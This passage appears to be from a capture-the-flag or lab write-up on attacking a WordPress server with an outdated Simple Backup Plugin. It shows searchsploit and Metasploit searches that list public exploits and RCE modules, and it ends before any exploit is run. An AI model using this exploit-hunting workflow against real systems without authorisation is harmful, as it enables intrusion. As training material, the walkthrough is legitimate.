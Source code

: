 The server is running a web server with a WordPress application.

If we inspect the application in the browser, we find a post over the plugin 'Simple Backup Plugin' in the version 2.7.10:
![WordPress Simple Backup Plugin](./images/wordpress_simple_backup.png)

This version is outdated and has public exploits:
```
$ searchsploit wordpress simple backup plugin
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Simple Backup 2.7.11 - Multiple Vulnerabilities                                                          | php/webapps/39883.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Using Metasploit, we can find an exploit and successful run it against the application:
```
$ msfconsole
                                                  
    [...]

msf6 > search wordpress backup

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/unix/webapp/joomla_akeeba_unserialize          2014-09-29       excellent  Yes    Joomla Akeeba Kickstart Unserialize Remote Code Execution
   1  exploit/multi/php/wp_duplicator_code_inject            2018-08-29       manual     Yes    Snap Creek Duplicator WordPress plugin code injection
   2  exploit/multi/http/wp_db_backup_rce                    2019-04-24       excellent  Yes    WP Database Backup RCE
```